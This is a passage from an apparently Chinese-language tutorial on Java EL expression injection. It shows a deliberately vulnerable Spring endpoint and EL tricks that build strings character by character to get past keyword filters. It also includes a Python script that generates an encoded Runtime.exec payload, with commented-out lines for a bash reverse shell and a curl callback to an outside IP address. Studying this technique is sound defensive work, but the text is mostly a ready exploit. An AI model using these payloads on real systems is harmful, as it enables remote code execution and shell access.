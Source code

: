```
@RequestMapping("/EL")
@ResponseBody
public String ELfunc(@RequestParam String str)throws Exception{
    ExpressionFactory factory = new ExpressionFactoryImpl();
    SimpleContext context = new SimpleContext();
    ValueExpression e = factory.createValueExpression(context,str, String.class);
    return e.getValue(context).toString();
}
```

![image-20220510171621144](images/4.png)

# Bypass

一些绕过方法其实和之前在学习SPEL注入的时候的绕过方法差不多

通过下面这段 EL，能够获取字符 `c` ，同理可以获取任意字符串

```
${true.toString().charAt(0).toChars(99)[0].toString()}
```

利用以上原理，通过 charAt 与 toChars 获取字符，在由 toString 转字符串再用 concat 拼接来绕过一些敏感字符的过滤,比如说拼接calc

```
${true.toString().charAt(0).toChars(99)[0].toString().concat(true.toString().charAt(0).toChars(97)[0].toString()).concat(true.toString().charAt(0).toChars(108)[0].toString()).concat(true.toString().charAt(0).toChars(99)[0].toString())}
```

![image-20220510191152715](images/5.png)

可以用如下exp生产

```
#coding: utf-8

#payload = "bash$IFS-i$IFS>&$IFS/dev/tcp/192.168.169.112/7777$IFS0>&1"
#payload = "bash$IFS-c$IFS'curl 192.168.169.112:7777'"
#exp = '${pageContext.setAttribute("%s","".getClass().forName("%s").getMethod("%s","".getClass()).invoke("".getClass().forName("%s").getMethod("%s").invoke(null),"%s"))}' % ('a','java.lang.Runtime','exec','java.lang.Runtime','getRuntime','open -a Calculator.app')

def encode(payload):
   encode_payload = ""
   for i in range(0, len(payload)):
      if i == 0:
         encode_payload += "true.toString().charAt(0).toChars(%d)[0].toString()" % ord(payload[0])
      else:
         encode_payload += ".concat(true.toString().charAt(0).toChars(%d)[0].toString())" % ord(payload[i])
   return encode_payload

exp = '${"".getClass().forName(%s).getMethod(%s,"".getClass()).invoke("".getClass().forName(%s).getMethod(%s).invoke(null),%s)}' % (encode('java.lang.Runtime'),encode('exec'),encode('java.lang.Runtime'),encode('getRuntime'),encode('calc'))   #修改这里的calc即可

print(exp)
```
